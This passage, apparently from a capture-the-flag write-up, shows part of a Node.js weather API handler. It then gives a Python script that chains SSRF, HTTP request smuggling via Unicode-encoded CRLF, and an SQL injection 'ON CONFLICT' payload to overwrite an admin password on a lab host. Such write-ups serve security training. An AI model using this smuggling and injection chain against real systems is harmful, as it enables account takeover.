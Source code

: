 ```js
                    weatherIcon = 'icon-clouds';
                    break;
                case 9: case 10:
                    weatherIcon = 'icon-rain';
                    break;
                case 11:
                    weatherIcon = 'icon-storm';
                    break;
                case 13:
                    weatherIcon = 'icon-snow';
                    break;
                default:
                    weatherIcon = 'icon-sun';
                    break;
            }

            return res.send({
                desc: weatherDescription,
                icon: weatherIcon,
                temp: weatherTemp,
            });
        } 

        return res.send({
            error: `Could not find ${city} or ${country}`
        });
    }
} 
```

and so it uses the helper function `HttpHelper.HttpGet()`to send a `GET`request and retrieve parameters for this specific city.

==> Now that we have all of this, we can actually make a script to overwrite the admin's password, using both the `SQLi`payload combined with the `SSRF`vulnerability in an encoded `HTTP smuggling request` :

```python
import requests

url = "http://94.237.53.230:40051"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
parsedUsername = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
parsedPassword = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parsedUsername) + len(parsedPassword) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+parsedUsername + '&password='+ parsedPassword + '\u010D\u010A\u010D\u010AGET\u0120/?lol='

city='test'

country='test'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json)
```
